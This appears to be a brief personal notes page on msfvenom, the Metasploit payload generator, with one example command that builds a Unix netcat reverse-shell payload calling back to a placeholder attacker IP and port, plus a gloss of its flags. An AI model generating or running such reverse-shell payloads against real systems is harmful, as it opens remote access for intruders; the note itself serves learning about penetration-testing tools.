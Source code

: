 #tools 

Is used to generate and output various types of shellcode that is available in Metasploit. Can generate Payloads for Android, Windows, Unic, Nodejs, Cisco...

Example:

`msfvenom -p cmd/unix/reverse_netcat lhost=[localhost ip] lport=4444 R`

-  -p = payload
-  lhost = localhost ip (my ip)
-  lport = localhost port
-  R = export payload in RAW format
